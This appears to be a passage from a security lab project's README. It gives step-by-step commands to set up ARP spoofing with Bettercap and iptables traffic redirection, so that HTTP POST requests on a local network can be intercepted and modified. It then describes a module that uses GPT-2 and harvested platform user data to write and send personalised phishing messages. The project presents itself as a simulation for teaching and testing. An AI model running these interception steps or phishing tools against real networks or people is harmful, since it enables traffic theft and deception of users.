 ```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

---

### 3. Set up iptables redirection (VERY important):

Replace `eth0` with your actual interface.

```bash
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

---

### 4. Start Bettercap:

```bash
sudo bettercap -iface eth0
```

---

### Inside Bettercap session:

Replace `192.168.1.48` with the target machine’s IP address.

```bash
set arp.spoof.targets 192.168.1.48
arp.spoof on
```

---

You're now ready to intercept and modify HTTP POST requests for testing.



## Phishing Email Attack Simulation

This module demonstrates how an AI-driven phishing attack could be simulated using GPT-2 and user data from a social streaming platform prototype. It generates personalized phishing messages and sends them via the platform's internal messaging system.

### Requirements

Make sure you've installed all dependencies:

```bash
pip install -r requirements.txt
```

### Required Files

- `ai_phishing.py` – The main phishing email generator and sender script.
- `most_subscribed_youtube_channels.csv` – Dataset used to personalize phishing emails with top content creators.
- Ensure the platform API (e.g., `export_users.php`, `send_message.php`, `login_process.php`) is running and accessible.
    -  **Source**: [YouTube Creator Dataset - Kaggle](https://www.kaggle.com/datasets/surajjha101/top-youtube-channels-data/data)
